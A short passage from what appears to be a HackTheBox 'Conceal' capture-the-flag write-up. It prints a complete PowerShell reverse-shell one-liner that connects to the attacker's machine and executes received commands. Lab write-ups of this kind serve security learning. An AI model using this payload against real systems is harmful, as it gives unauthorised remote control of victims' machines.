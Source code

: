 ![](/images/hackthebox/conceal/18.png)
#### I got a powershell reverse shell : 
![](/images/hackthebox/conceal/19.png)
#### Payload : 
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.xx.xx',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
